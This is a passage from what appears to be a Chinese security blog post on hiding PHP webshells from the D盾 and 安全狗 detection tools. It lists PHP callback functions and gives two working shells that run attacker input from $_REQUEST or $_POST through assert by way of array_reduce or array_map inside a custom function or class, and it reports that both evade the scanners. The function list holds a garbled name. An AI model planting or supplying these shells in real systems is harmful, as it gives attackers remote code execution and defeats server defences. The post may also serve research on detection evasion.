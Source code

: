 D 盾显示 1 级  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-da5f4b36-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-da5f4b36-864e-1.png)  
还可以进行变形，定义一个函数或类来调用相应的回调函数，常见的回调函数如下：

```
call_user_func_array()

call_user_func()

array_filter()

array_walk()

array_map()

registregister_shutdown_function()

register_tick_function()

filter_var()

filter_var_array()

uasort()

uksort()

array_reduce()

array_walk()

array_walk_recursive()
```

这里定义一个函数来调用其中一个回调函数

```
<?php 
  function Sn0w($a,$b){
    array_reduce($a,$b)
    }
  Sn0w(assert,$_REQUEST['x']);
?>
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-da801370-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195759-da801370-864e-1.png)  
成功绕过 D 盾和安全狗

还可以定义一个类来进行绕过：

```
<?php
    class Sn0w {
        var $a;
        var $b;
        function __construct($a,$b) {
            $this->a=$a;
            $this->b=$b;
        }
        function test() {
            array_map($this->a,$this->b);
        }
    }
    $p1=new Sn0w(assert,array($_POST['x']));
    $p1->test();
```